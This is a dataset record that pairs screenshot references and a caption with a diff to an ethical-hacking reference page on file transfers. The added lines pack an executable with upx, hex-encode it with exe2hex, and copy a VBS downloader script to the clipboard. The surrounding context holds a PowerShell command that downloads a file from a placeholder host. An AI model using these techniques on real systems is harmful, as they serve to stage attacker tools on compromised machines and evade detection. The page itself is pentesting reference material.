

Before and after one commit to curious-attempt-bunny/ethical-hacking-reference-docs, a Sphinx documentation site: the page built from source/file_transfers.md, in a window 1280 px wide and 1133 px high. Shown: the whole window at 91% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update file_transfers.md

````diff
--- a/source/file_transfers.md
+++ b/source/file_transfers.md
@@ -21,6 +21,7 @@ curl -L -O https://gist.githubusercontent.com/maddouri/da64f298e19bff0cd1ce46ee8
 ```
 ```
 cat wget.vbs | sed -e 's/^/echo /' | sed -e 's/$/>> wget.vbs/' > wget.vbs.echo
+cat wget.vbs.echo | xclip -selection clipboard
 ```
 ```
 cscript wget.vbs <url> (file)
@@ -31,3 +32,11 @@ cscript wget.vbs <url> (file)
 ```
 powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://ipaddress/filename', 'filename')
 ```
+
+### Clipboard
+
+```
+upx -9 file.exe # compresses the file inplace
+exe2hex -x file.exe -p fild.cmd
+cat file.cmd | xclip -selection clipboard
+```
````
